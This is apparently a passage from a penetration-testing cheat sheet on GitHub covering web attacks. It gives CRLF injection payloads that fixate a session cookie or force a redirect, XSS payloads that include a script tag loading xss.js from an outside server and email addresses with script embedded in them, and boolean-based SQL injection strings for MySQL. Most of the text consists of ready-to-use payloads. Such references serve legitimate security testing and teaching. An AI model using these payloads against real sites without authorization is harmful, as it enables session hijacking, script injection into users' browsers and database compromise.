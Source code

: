 Also known as CRLF injection. CRLF refers to carriage return (`ASCII 13`, `\r`) and line feed (`ASCII 10`, `\n`).

When encoded, `\r` refers to `%0D` and `\n` refers to `%0A`.

Fixate a session cookie:

```fundamental
somesite.com/redirect.asp?origin=somesite.com%0D%0ASet-Cookie:%20ASPSESSION=123456789
```

Redirect:

```fundamental
somesite.com/home.php?marketing=winter%0D%0ALocation:%20https%3A%2F%2Fgithub.com
```

Session fixation and redirection are one of many techniques used in combination with HTTP response splitting. Search the Internet for more information.

### Cross-Site Scripting (XSS)

Simple cross-site scripting (XSS) examples:

```html
<script>alert(1)</script>

<script src="https://myserver.com/xss.js"></script>

<img src="https://github.com/favicon.ico" onload="alert(1)">
```

Hosting JavaScript on [Pastebin](https://pastebin.com) doesn't work because Pastebin returns the plain text content type.

Find out more about reflected and stored cross-site scripting (XSS) attacks, as well as cross-site request forgery (XSRF/CSRF) attacks from my other [project](https://github.com/ivan-sincek/xss-catcher).

Valid emails with embedded XSS:

```html
user+(<script>alert(1)</script>)@somedomain.com

user@somedomain(<script>alert(1)</script>).com

"<script>alert(1)</script>"@somedomain.com
```

### SQL Injection

**The following examples were tested on MySQL database.**

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash, or period.

Boolean-based SQLi:

```fundamental
' OR 1=1-- 

' OR 1=2-- 
```
